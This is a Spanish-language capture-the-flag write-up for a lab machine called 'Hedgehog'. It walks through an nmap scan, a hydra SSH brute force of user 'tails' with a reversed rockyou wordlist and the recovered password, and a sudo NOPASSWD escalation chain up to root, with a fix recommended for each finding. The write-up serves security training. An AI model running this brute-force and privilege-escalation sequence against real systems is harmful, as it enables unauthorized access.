







# 🛡️ Writeup — Máquina "Hedgehog"

**IP objetivo:** `172.17.0.2`
**Sistema operativo:** Ubuntu 24.04.1 LTS
**Servicios expuestos:** `22 (SSH)`, `80 (HTTP)`

---

## 📌 Resumen Ejecutivo

> [!summary]
> Compromiso total del sistema (acceso root) mediante fuerza bruta SSH con un diccionario invertido y una cadena de `sudo` NOPASSWD entre dos usuarios (`tails` → `sonic` → root). No fue necesario explotar vulnerabilidades complejas.

---

## 🔍 1. Reconocimiento

```bash
nmap -p- --open -sS -sC -sV -T4 -n -Pn 172.17.0.2
```
```text
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu
80/tcp open  http    Apache 2.4.58
```
El puerto 80 no muestra contenido relevante ni rutas ocultas — la superficie de ataque se reduce al servicio SSH.


*Escaneo de puertos con Nmap*


*Despliegue del contenedor y obtención de la IP objetivo*

---

## 🚩 Hallazgos

### 🟠 H1: Fuerza bruta SSH con diccionario invertido (`tails`)

**Severidad:** Alta

**Resumen:** El servicio SSH acepta autenticación por contraseña sin límite de intentos. El servicio web revela el nombre de usuario `tails`, y su contraseña se encuentra hacia el final de `rockyou.txt`, por lo que se optimiza el ataque invirtiendo el diccionario.

**Detalle / PoC**

El servicio web revela el usuario `tails`:


```bash
tac /usr/share/wordlists/rockyou.txt > rockyou_invertido.txt
```

*Preparación del diccionario invertido*

```bash
hydra -l tails -P rockyou_invertido.txt ssh://172.17.0.2 -t 64
```
Credenciales obtenidas:
```
Usuario: tails
Contraseña: 3117548331
```

*Credenciales obtenidas con Hydra*

```bash
ssh tails@172.17.0.2
```
Acceso confirmado como `tails`.


*Acceso SSH como usuario tails*

**Impacto:** Acceso inicial al sistema.

**Recomendación:** Implementar políticas de contraseñas robustas; limitar intentos de autenticación en SSH.

---

### 🔴 H2: Escalada de privilegios encadenada vía `sudo` NOPASSWD:ALL (tails → sonic → root)

**Severidad:** Crítica

**Resumen:** El usuario `tails` puede ejecutar cualquier comando como el usuario `sonic` sin contraseña, y `sonic` a su vez tiene privilegios `sudo` totales sobre el sistema — una cadena de dos saltos hasta root.

**Detalle / Causa raíz**
```bash
sudo -l
```
```
User tails may run the following commands:
    (sonic) NOPASSWD: ALL
```

**PoC**
```bash
sudo -u sonic -i
whoami
# sonic
```
Nueva enumeración como `sonic`:
```bash
sudo -l
```
```
User sonic may run the following commands:
    (ALL) NOPASSWD: ALL
```
```bash
sudo bash
whoami
# root
```

*Escalada a root vía `sudo -u sonic` → `sudo su`*

**Impacto:** Compromiso total del sistema.

**Recomendación:** Eliminar configuraciones `NOPASSWD: ALL`; auditar y revisar periódicamente privilegios de usuarios.

---

## 🔗 Cadena de ataque

```text
Enumeración web (usuario tails) → Fuerza bruta SSH (diccionario invertido) →
sudo -u sonic NOPASSWD → sudo ALL NOPASSWD (sonic) → root
```

---

## 🛡️ Recomendaciones generales

- Eliminar configuraciones inseguras como `NOPASSWD: ALL`.
- Implementar políticas de contraseñas robustas.
- Limitar intentos de autenticación en SSH.
- Revisar y auditar privilegios de usuarios periódicamente.

---

## 🧾 Conclusión

> [!summary]
> El acceso inicial se logró mediante credenciales débiles, y la escalada de privilegios fue posible debido a una configuración incorrecta de `sudo` encadenada entre dos usuarios. La cadena de ataque fue directa y basada en malas prácticas de seguridad.
